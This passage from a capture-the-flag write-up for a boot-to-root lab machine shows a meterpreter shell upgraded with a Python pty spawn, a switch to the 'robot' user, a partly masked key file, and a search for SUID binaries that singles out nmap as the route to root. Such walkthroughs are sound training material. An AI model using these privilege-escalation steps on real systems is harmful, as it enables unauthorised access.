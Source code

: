 From there we need to switch user to `robot`. For this, first we need to start a shell in `msfconsole`. But `su` need a terminal, so used `Python` to do the trick.

````commandline
meterpreter > shell
Process 2500 created.
Channel 2 created.

su robot
su: must be run from a terminal
python -c 'import pty; pty.spawn("/bin/bash")'
daemon@linux:/home/robot$ su robot
su robot
Password: **************************

robot@linux:~$ pwd     
pwd
/home/robot
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
82*****56184f694993bede3e*****59
````

Looked with `sudo -l`, nothing. `crontab -l` also did not give anything.

````commandline
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: abcdefghijklmnopqrstuvwxyz

Sorry, user robot may not run sudo on linux.
robot@linux:~$ crontab -l
crontab -l
no crontab for robot
````

To gain `root` access, the hint is `nmap`. I wanted to make use of `linpeas` for the local enumeration of this machine, to help me and speed up the process. But sometimes, looking manually speed up the process even more. So I looked up for the `SUID` bits on this computer.

The short ways is:

````commandline
robot@linux:~$ whereis nmap
whereis nmap
nmap: /usr/local/bin/nmap
robot@linux:~$ ls -lah /usr/local/bin/nmap
ls -lah /usr/local/bin/nmap
-rwsr-xr-x 1 root root 493K Nov 13  2015 /usr/local/bin/nmap
````

But I took the long way.

````commandline
robot@linux:~$ find / -perm +6000 2>/dev/null | grep '/bin/'
find / -perm +6000 2>/dev/null | grep '/bin/'
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/mail-touchlock
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/bin/mail-unlock
/usr/bin/mail-lock
/usr/bin/chsh
/usr/bin/crontab
````